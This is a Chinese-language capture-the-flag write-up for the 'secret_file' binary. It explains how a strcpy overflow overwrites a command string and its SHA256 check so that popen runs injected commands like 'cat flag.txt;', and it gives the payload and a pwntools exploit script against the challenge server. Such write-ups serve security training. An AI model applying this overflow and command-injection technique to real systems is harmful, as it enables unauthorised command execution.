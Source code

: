 # secret_file

# 涉及知识

+ SHA256
+ popen系统函数，执行命令

<!--more-->

# 分析程序

## 保护机制

![image.png](https://i.loli.net/2020/05/20/HnCitqTZ7xFX9jG.png)

保护全开

## 漏洞分析

这道题的难点就在于程序逆向后，代码不是很容易看明白。

![image.png](http://149.28.144.59:8090/upload/2020/3/image-6e11ff7b5d1f4b53be05d3012fa03ba6.png)

但是冷静下来慢慢的理解，还是能看明白的。程序就是一个hash计算，根据dest的0x100字节进行一个SHA256计算，将摘要结果储存在v18中，最后将v15和v18进行比较。比较成功就会执行popen(&v14,'r')，进而可以执行ls，cat等命令。

![image.png](https://i.loli.net/2020/05/20/ZGumfiskOD8WtNY.png)

getline可以读入任意字节的数据，strcpy将读入的数据复制到dest中，所以这里存在溢出。我们可以覆盖v14和v15的值。同时用于hash计算的值，我们也可以自己设定，因此漏洞利用思路就很清晰了。

利用payload='a'*0x100+'ls;'.ljust(0x1b,' ')+hashlib.sha256('a'*0x100).hexdigest()来显示当前目录下有哪些文件。

*注意：由于时strcpy将数据复制到dest上的，而strcpy遇到\x00将终止复制，所以payload里不应用\x00来填写多余字符。这也是为什么ls后面需要加;,否则popen将会把ls和填充的字符当成一条命令，造成错误。*

再利用payload='a'*0x100+'cat flag.txt;'.ljust(0x1b,' ')+hashlib.sha256('a'*0x100).hexdigest()来获取flag

# EXP

````python
from pwn import *
from LibcSearcher import LibcSearcher
import hashlib
context.log_level='debug'
#sh=process('./xctf')
sh=remote('111.198.29.45',53262)
#gdb.attach(sh)

hash_resulet='02d7160d77e18c6447be80c2e355c7ed4388545271702c50253b0914c65ce5fe'

payload='a'*0x100+'cat flag.txt;'.ljust(0x1b,' ')+hashlib.sha256('a'*0x100).hexdigest()

sh.sendline(payload)
sh.interactive()
````

## 反思

+ 动态调试的能力有待提升，遇到问题时，不能通过调试把它找出来。

+ strcpy遇到\x00就会结束复制，在构造payload时，最开始是用\x00来填充多余字符的，导致出错。
